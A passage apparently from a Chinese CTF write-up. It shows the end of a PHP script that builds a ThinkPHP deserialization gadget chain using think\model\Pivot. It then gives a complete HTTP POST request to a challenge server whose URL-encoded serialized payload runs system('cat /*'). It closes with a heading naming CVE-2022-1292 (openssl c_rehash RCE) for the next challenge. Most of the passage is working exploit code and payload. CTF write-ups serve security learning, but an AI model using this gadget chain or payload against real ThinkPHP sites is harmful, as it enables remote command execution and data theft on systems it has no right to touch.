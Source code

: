 ```PHP
    }
}
namespace think\model{
    use think\Model;
    class Pivot extends Model{
    }
}

namespace{
    echo(urlencode(serialize(new think\model\Pivot(new think\model\Pivot()))));
}

```

```http
POST /index.php/index/test HTTP/1.1
Host: 1.14.71.254:28566
Content-Length: 1241
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://1.14.71.254:28566
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://1.14.71.254:28566/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

a=O%3A17%3A%22think%5Cmodel%5CPivot%22%3A7%3A%7Bs%3A21%3A%22%00think%5CModel%00lazySave%22%3Bb%3A1%3Bs%3A17%3A%22%00think%5CModel%00data%22%3Ba%3A1%3A%7Bs%3A6%3A%22whoami%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22cat+%2F%2A%22%3B%7D%7Ds%3A19%3A%22%00think%5CModel%00exists%22%3Bb%3A1%3Bs%3A8%3A%22%00%2A%00table%22%3BO%3A17%3A%22think%5Cmodel%5CPivot%22%3A7%3A%7Bs%3A21%3A%22%00think%5CModel%00lazySave%22%3Bb%3A1%3Bs%3A17%3A%22%00think%5CModel%00data%22%3Ba%3A1%3A%7Bs%3A6%3A%22whoami%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22cat+%2F%2A%22%3B%7D%7Ds%3A19%3A%22%00think%5CModel%00exists%22%3Bb%3A1%3Bs%3A8%3A%22%00%2A%00table%22%3Bs%3A0%3A%22%22%3Bs%3A21%3A%22%00think%5CModel%00withAttr%22%3Ba%3A1%3A%7Bs%3A6%3A%22whoami%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00json%22%3Ba%3A2%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3Bi%3A1%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3B%7D%7Ds%3A12%3A%22%00%2A%00jsonAssoc%22%3Bb%3A1%3B%7Ds%3A21%3A%22%00think%5CModel%00withAttr%22%3Ba%3A1%3A%7Bs%3A6%3A%22whoami%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00json%22%3Ba%3A2%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3Bi%3A1%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3B%7D%7Ds%3A12%3A%22%00%2A%00jsonAssoc%22%3Bb%3A1%3B%7D
```

##  online_crt

考点：

1. CVE-2022-1292,利用`openssl`的`c_rehash`实现RCE

